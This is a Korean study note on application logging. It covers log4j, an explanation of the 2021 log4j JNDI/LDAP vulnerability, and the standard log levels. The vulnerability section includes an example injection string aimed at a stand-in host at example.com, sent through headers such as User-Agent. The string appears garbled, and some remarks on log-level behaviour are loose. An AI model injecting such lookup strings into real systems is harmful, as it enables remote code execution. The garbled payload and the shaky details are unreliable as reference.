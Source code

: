 **⏩ 개념**

> 로그(Log)란 프로그램 개발이나 운영 시 발생하는 문제점을 추적하거나 운영 상태를 모니터링하기 위한 텍스트이다.
> 
<br>
**⏩ log4j**

보통 log4j 라이브러리를 활용하여 로그를 저장한다.

log4j란 Java 기반의 로깅 유틸리티로, Apache에서 만든 오픈소스 라이브러리다. 

Log for Java라는 뜻으로 Jakarta-project에서 Java를 위한 프로젝트 중 하나로 처음부터 Java의 예외를 처리하기 위해 설계되었다.

프로그램 실행 시 자동으로 지정한 경로에 로그를 저장해주는 기능을 한다.

***+) log4j 취약점 ::  2021년 12월***

우선 이 취약점은 **JNDI**와 **LDAP**를 이용한다. **JNDI**는 **Java Naming and Directory Interface**의 약자로 1990년대 후반부터 Java에 추가된 인터페이스이다. Java 프로그램이 **디렉토리**를 통해 **데이터**(Java 객체 형태)를 찾을 수 있도록 하는 디렉토리 서비스이다.

JNDI는 이러한 디렉토리 서비스를 위해 **다양한 인터페이스**가 존재하는데 그 중 하나가 **LDAP**이다. 이 LDAP가 이번 취약점에 가장 중요한 포인트이다.

Java 프로그램들은 앞서 말한 JNDI와 LDAP를 통해 Java 객체를 찾을 수 있다. 예시로 URL ldap://localhost:389/o=JNDITutorial을 접속한다면 LDAP 서버에서 JNDITutorial 객체를 찾을 수 있는 것이다.

이러한 접근 인터페이스가 이번 사태에 치명적이게 된 이유는, Log4j에는 편리하게 사용하기 위해 ${prefix:name} 형식으로 **Java 객체를 볼 수 있게 하는 문법**이 존재하기 때문이다. 예를 들어 **${java:version}은 현재 실행 중인 Java 버전**을 볼 수 있게 한다.

이런 문법은 **로그가 기록될 때도 사용이 가능**했고, 결국 해커가 **로그에 기록되는 곳을 찾아 ${jndi:sndi:snd://example.com/a}과 같은 값을 추가**하기만 하면 **취약점을 이용**할 수 있는 것이다. 이 값을 넣는 방법은 **User-Agent와 같은 일반적인 HTTP 헤더**일 수도 있고 여러가지 방법이 있다.

즉, 로그가 기록되는 곳을 찾아 값을 추가하면 외부 리소스를 다운받을 주소가 공격자의 서버가 되기 때문에 아주 손쉽게 !! 악성코드가 침투하는 것이다.
<br>
**⏩ logging level**

- **FATAL**
    
    FATAL 로그는 아주 심각한 에러가 발생한 상태이다. 시스템적으로 심각한 문제가 발생해서 어플리케이션 작동이 불가능할 경우를 뜻한다.
    

- **ERROR**
    
    ERROR 로그는 프로그램 동작에 큰 문제가 발생했다는 것으로 즉시 문제를 조사해야 하는 수준이다.
    
    `예) DB를 사용할 수 없는 상태, 중요 에러가 나오는 상황`
    

- **WARN**
    
    WARN 로그는 주의해야 하지만, 프로세스는 계속 진행되는 상태를 말한다. 하지만 WARN 상태에서도 아래 2가지 문제가 발생하면 프로세스가 종료된다.
    
    - 명확한 문제 : 현재 데이터를 사용 불가, 캐시값 사용 등
    - 잠재적 문제 : 개발 모드로 프로그램 시작, 관리자 콘솔 비밀번호가 보호되지 않고 접속 등
    
- **INFO**
    
    중요한 비즈니스 프로세스가 시작될 때와 종료될 때를 알려주는 로그를 말한다.
    
    `예) ~가 ~를 실행했음`
    
- **DEBUG**
    
    개발자가 기록할 가치가 있는 정보를 남기기 위해 사용하는 레벨의 로그이다.
    

DEBUG > INFO > WARN > ERROR > FATAL 순으로 로그가 찍힌다.
<br>
**⏩ 참고**

[https://m.blog.naver.com/PostView.naver?isHttpsRedirect=true&blogId=2zino&logNo=221641662104](https://m.blog.naver.com/PostView.naver?isHttpsRedirect=true&blogId=2zino&logNo=221641662104)

[https://pig-programming.tistory.com/51](https://pig-programming.tistory.com/51)

[https://mdj1234.tistory.com/63](https://mdj1234.tistory.com/63)
